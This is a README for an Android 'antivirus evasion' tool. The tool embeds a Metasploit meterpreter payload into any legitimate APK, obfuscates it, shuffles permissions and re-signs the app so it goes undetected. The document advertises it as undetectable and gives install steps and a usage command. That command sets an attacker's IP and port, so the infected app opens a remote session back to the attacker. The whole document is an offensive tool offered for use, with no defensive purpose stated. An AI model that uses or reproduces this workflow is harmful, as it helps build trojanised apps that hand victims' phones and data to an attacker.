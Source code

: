 
Advanced Android Antivirus Evasion Tool Written In Python 3 that can Embed/Bind meterpreter APK to any Legitimate APK & can completely ofusticate the meterpreter payload with different techniques.

## Features
- [x] Fully Automate Payload Creation Using MSFvenom
- [x] Creates a handler.rc File 
- [x] Undetectable
- [x] Ofusticate Meterpreter APK
- [x] Binds/Embeds Meterpreter APK with Any Legitimate APK 
- [x] Automatically Generates a Key which is used in signing
- [x] Capable to Sign APK Using **Jarsigner** or **APKsigner**
- [x] Zipalign the Signed APK
- [x] Shuffles the Permissions of Meterpreter APK for AV Evasion
- [x] Changes the default foldername and filenames which are being flagged by AV

##
## Prerequisite
- [x] Python 3.X
- [x] APKsigner or Jarsigner  [**One of them**]
- [x] APK Tool [**Latest**]
- [x] ZipAlign

## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - 2019.4**

## Installation & Usage

```

# Navigate to the /opt directory (optional)
$ cd /opt/

# Clone this repository
$ git clone https://github.com/Umair8906/apkinfector.git

# Navigate to technowlogger folder
$ cd apkinfector

# Installing dependencies
$ apt-get update && apt-get install apktool && apt-get install zipalign && apt-get install apksigner

# Running the Tool for 1st Time
$ python3 infector.py --help

# Usage Example
$ python3 infector.py --lhost 192.168.43.70 --lport 4444 --apk-name NEW_APK_NAME --normal-apk /root/Desktop/Path/TO/Legitemate_APK_File.apk

```

## Available Arguments 
* Optional Arguments

| Short Hand  | Full Hand | Description |
| ----------  | --------- | ----------- |
| -h          | --help    | show this help message and exit |

* Required Arguments

| Short Hand  | Full Hand | Description |
| ----------  | --------- | ----------- |
|             | --lhost 192.168.44.33  | Attacker's IP Address |
|             | --lport 4444 | Attacker's Port |
| -n NORMAL_APK | --normal-apk NORMAL_APK | Absolute Path of Legitimate APK File |
|     |  --apk-name APKNAME   | APK Name (Anything You Want To Name) |

## Contribute

* All Contributors are welcome, this repo needs contributors who will improve this tool to make it best.



